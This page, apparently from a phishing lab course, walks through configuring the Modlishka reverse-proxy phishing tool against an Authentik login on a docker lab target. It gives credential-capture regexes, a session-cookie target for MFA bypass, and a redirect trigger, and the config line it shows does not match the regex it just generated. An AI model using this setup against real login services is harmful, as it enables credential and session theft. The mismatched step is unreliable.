 +++
title = "Reconfigure Modlishka With MFA Authentication Provider"
weight = 70
+++

Let's go through the auth flow to determine what the username and password fields when conducting a normal login.

TODO: Screenshots

We can see that the fields are `uid_field` and `password`.

Now we need to find a URL path that is only hit when the target successfully logs in.

TODO: Screenshots

Lets use `/if/user`.

Now we need to determine the session cookie.

TODO: Screenshots

Looks like `authentik_session` maybe the one we are after. We are lucky they used descriptive names and very few cookies.

We have all the required information to reconfigure Modlishka.

We'll start by updating the `"target"` in Modlishka's config.

```json
  "target": "auth.target.docker:9000",
```

Now we need to create some regular expressions to match the username and password fields.

```bash
echo -n '"uid_field":\s*"(.+?)"' | base64
echo -n '"password":\s*"(.+?)"' | base64

```
We'll join these two values together with a comma, then update the `"credParams"` configuration value.

```
InVpZF9maWVsZCI6XHMqIiguKz8pIg==,InBhc3N3b3JkIjpccyoiKC4rPyki
```

```json
  "credParams": "InVzZXJuYW1lIjpccyoiKC4rPyki,InBhc3N3b3JkIjpccyoiKC4rPyki"
```

Finally, we need to update the `"terminateTriggers"` and `"terminateRedirectUrl"`.

```json
  "terminateRedirectUrl": "https://uvcyber.com/?phished",
  "terminateTriggers": "/if/user",
```
